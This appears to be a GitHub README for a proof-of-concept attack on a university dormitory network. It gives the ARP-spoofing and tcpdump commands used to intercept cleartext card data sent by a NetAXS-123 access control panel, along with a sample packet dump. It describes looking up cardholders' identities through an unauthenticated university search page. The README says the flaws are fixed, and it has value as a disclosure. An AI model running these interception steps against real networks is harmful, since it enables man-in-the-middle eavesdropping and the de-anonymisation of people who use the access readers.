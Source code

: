 # NetAXS sniffer & identity checker POC
Dormitory on my university has a very nice hidden network, on which multiple devices are operating. One of them is NetAXS-123 physical access control system set to check the tokens on external database. This communication is absolutely clear and readable. This script is designed to be used on a linux device connected to this network. It takes a hex output from tcpdump, extracts needed data and tries to chceck the identity of person who used the reader.

The most important vulnerabilities which led to this attack has been already appropriately fixed.

## Do not forget to allow IPv4 forwarding
``` sudo bash -c 'echo 1 > /proc/sys/net/ipv4/ip_forward' ```
## ARP spoofing:
``` sudo arpspoof -i eth0 [IP of NetAXS] -t [IP of Gateway] ```
``` sudo arpspoof -i eth0 [IP of Gateway] -t [IP of NetAXS] ```
## TCPDump /w our python script
``` sudo tcpdump -X -i eth0 tcp and ether src [MAC of NetAXS] | python3 netaxs_sniff.py ```

script netaxs_sniff.py will take the 4 bytes from packet (marked as "CARD HERE" in the example), converts them to endianity compatible with IS of my university, then uses old search interface from "Úschovna" which is capable
of search based on the card number (even for unauthentized users!!). Because NetAXS gives us only last 4 bytes (ignores the first one), the script tries most used prefixes used on my university (06, 08, 0E)
If the úschovna search is successful, script prints out the Identity together with full card number.

example of packet sniffed from NetAXS 123:
```
19:30:36.842327 IP [IP of NetAXS] > [IP of Database server]: Flags [P.], seq 810:927, ack 100, win 8816, length 117
	0x0000:  4500 009d 155b 4000 4006 51b1 93fb cc7b  E....[@.@.Q....{
	0x0010:  93fb dedc 0bb9 e812 a28c c594 671c cde7  ............g...
	0x0020:  5018 2270 12ff 0000 0473 0000 014d 2302  P."p.....s...M#.
	0x0030:  0106 0001 0064 0005 5754 0001 5b1d 603c  .....d..WT..[.`<
	0x0040:  0000 0000 0003 0002 0306 0000 0002 0000  ................
	0x0050:  0000 CARD HERE 0000 0000 0000 0000 4d69  ..****........Na
	0x0060:  7261 6b5a 6164 6e69 5663 686f 6443 7465  meOfOurEMMarinRe
	0x0070:  636b 6132 6100 0000 0000 0000 0000 0000  ader............
	0x0080:  0000 0000 0000 0000 0000 0000 0000 0000  ................
	0x0090:  0000 0000 0000 0000 0000 0403 58         ............X
```


